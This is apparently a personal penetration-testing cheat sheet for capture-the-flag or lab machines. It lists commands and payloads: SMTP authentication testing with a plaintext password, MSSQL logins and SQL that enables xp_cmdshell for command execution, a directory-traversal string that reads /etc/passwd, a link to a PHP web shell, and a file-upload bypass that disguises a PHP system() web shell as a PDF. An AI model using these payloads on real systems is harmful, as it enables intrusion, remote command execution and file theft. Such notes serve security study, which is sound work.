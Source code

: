 ## Email Attack

- swaks -server mailing.htb --auth LOGIN --auth-user administrator@mailing.htb --auth-password homenetworkingadministrator --quit-after AUTH

## MSSQL Enabling xp_cmdshell

- impacket-mssqlclient sql_svc:Dolphin1@10.10.205.148 -windows-auth
- impacket-mssqlclient -k -no-pass SSCM.LAB/sccm-sql@mssql.sccm.lab -debug
- EXECUTE sp_configure 'show advanced options', 1;
- RECONFIGURE;
- EXECUTE sp_configure 'xp_cmdshell', 1;
- RECONFIGURE;

## Directory Traversal

- ....//....//....//....//....//....//....//....//....//....//....//etc/passwd

## PHP webshell

- https://github.com/artyuum/simple-php-web-shell.git

## File Upload

#### PDF file

- cat shell.pdf
- add this to file:
  %PDF-1.7
    <?php echo system($GET['cmd']);?>
- upload it but capture with Burp and use Burp to change the extension to php/pHP
